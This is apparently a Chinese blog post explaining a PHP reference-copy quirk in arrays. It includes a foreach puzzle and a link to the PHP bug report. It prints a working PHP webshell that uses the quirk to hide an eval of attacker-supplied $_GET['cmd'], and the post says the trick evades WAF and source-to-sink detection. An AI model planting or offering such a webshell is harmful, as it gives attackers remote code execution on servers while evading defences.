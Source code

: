 
## PHP "BUG" 特性

[PHP 在线工具 | 菜鸟工具](https://c.runoob.com/compile/1/)

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

上面运行结果可以看出c这个字符内存地址相同的问题。

为什么\$c=\$a后，\$c[0]会改变\$a[0]呢。七友大佬给出了官方的解释：

如果对数组的单个元素进行引用，然后复制数组，无论是通过赋值还是通 过函数调用中的值传递，都会将引用复制为数组的一部分。这意味着对任一数组中任何此类元素的更改 都将在另一个数组（和其他引用中）中重复

## 条件

即，满足这个BUG特性需要两个条件

1.原数组的一个元素被引用了，即&$a[0]

2.原数组被复制了，即$b=$a

那么此时，我们就可以通过复制过去的数组，去修改原数组那一个元素，因为两个数组中这两个元素指向同一个地址。

 - [ ] 再看大佬给出的Webshell，猜猜是怎么执行的。
       
       <?php
       
       $a = array(1 => "A");
       
       $b=&$a[1];
       
       $c=$a;
       
       $c[$_GET["mem"]]=$_GET["cmd"];
       
       eval($a[1]);
       
       ?>

首先\$b是工具人，用于触发元素引用的条件。之后\$c复制了数组\$a，数组\$c修改了\$_GET["mem"]这个索引对应的参数为\$_GET["cmd"]。最后命令执行数组$a[1]索引参数。

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

显然没传参时看不出什么结果。但是结合利用图就能明白了。数组$c还没有接收参数，因此它现在还不具备修改\$a元素的第二个条件。等到用户传参men为1时才满足，此时数组$a[1]的值为用户传参cmd，eval命令执行。正因为该行为不容易被source到sink规则检测出来，适合用于过Waf。

[![XNtAC6.png](https://s1.ax1x.com/2022/06/03/XNtAC6.png)](https://imgtu.com/i/XNtAC6)

大佬最后留了一个问题，以下内容输出结果的思考。

[![XNtnDH.png](https://s1.ax1x.com/2022/06/03/XNtnDH.png)](https://imgtu.com/i/XNtnDH)

为什么第二次输出\$array[2]改变了？不妨思考foreach执行到最后一句，是\$array[2]=&\$item，这时&\$item的地址不再改变，即$item=&array[2]。

> array(3) {
> 
> [0]=>
> 
> int(1)
> 
> [1]=>
> 
> int(2)
> 
> [2]=>
> 
> &int(3)
> 
> }

再执行一次foreach，依次执行了\$item=\$array[0]，具备修改条件，此时array[2]为1；\$item=\$array[1]，具备修改条件，此时array[2]为2；\$item[2]=\$array[2]，具备修改条件，此时赋值完还是2。

更多解释可以看这篇英文原文：https://bugs.php.net/bug.php?id=29992